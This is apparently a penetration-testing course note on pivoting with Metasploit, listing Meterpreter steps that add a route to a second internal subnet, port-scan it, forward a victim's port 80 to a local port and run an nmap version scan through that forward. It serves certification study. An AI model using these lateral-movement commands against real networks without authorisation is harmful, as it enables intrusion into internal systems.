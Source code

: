 # Pivoting via Metasploit

Pivoting is a Post exploitation technique which utilises a compromised host to attack other systems on the private Internal network.<br>
Imagine you have compromised a host in `192.168.10.0/24` subnet and that host is also part of another subnet `10.10.10.1/24`. This really introduces more systems opening large attack surface.

![pivoting](https://github.com/ab3lsec/eJPTv2CourseNotes/assets/87868050/e217f6d9-fc2d-4b7a-ab10-f9eb47370ca3)


#### HOW TO PIVOT TO OTHER SUBNETS:

1. Gain an initial Meterpreter shell
2. Now we can enumerate the IP configuration on that target to check whether it is part of another subnet
3. Now we need to add the route of VICTIM 2. This will add a route in our local machine to the VICTIM 2 via VICTIM 1.

```
run autoroute -s "VICTIM 2 SUBNET"
```

4. We can then perform a Port Scan of the VICTIM 2

```
use auxiliary/scanner/portscan/tcp 
set RHOSTS 10.5.27.67
exploit
```

5. Since we cannot access VICTIM 2 directly we cannot do a detailed `nmap` scan for version detection etc.. 
6. So we need to perform the Port forwarding, which means communications to Port 80 of VICTIM 2 will be forwarded to a local specified port of our choice

```
portfwd add -l 1234 -p 80 "VICTIM 2 IP"
```

7. Now we can do a NMAP scan. VICTIM 2 port 80 is forwarded to the local port in our local machine. So we need to give `localhost`

```
db_nmap -sV -p1234 localhost
```

